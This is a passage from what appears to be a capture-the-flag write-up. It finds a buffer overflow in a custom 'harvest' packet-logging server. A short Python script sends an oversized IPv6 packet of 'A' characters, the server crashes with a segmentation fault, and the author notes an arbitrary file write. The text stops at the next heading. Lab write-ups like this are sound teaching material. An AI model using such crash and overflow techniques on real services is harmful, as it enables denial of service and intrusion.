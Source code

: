 It does write to the log file with 100 As before it crashes. This isn’t useful to me because alex is already running the server with a reasonable log file name less than 40 characters.

### Exploit

#### Find BOF

I have a place where its using the packet’s length to determine how long to write in the buffer. But that’s not even the problem, as the buffer isn’t long enough to take a max length IPv6 data blob. IPv6 packets can support up to 65,535 bytes of data, but the buffer for the data is only 65,360 bytes.

To test this theory, I’ll create the start of a Python exploit:

```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
data = b"A" * (65535)
sock.sendto(data, SRV_ADDR)

```

This will send a full packet of “A” characters in an IPv6 packet. The port doesn’t matter because `harvest` is listening for raw packets.

I’ll start the server, and then connect the client to start logging. Then I’ll run the exploit. The server crashes:

```

oxdf@hacky$ sudo ./harvest server -i tun0 -l test.log
[*] Listening on interface tun0
[*] Successful handshake
[!] Suspicious activity. Packages have been logged.
Segmentation fault

```

There’s a new file in the same directory named with a bunch of “A”s:

```

oxdf@hacky$ file AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: ISO-8859 text, with very long lines (65406), with no line terminators

```

The file is full of a bunch of “A”s as well. So not only can I overflow and crash the server (which could lead to RCE almost certainly), I also see to have arbitrary file write, which will be much easier to exploit.

#### Get Filename Offset

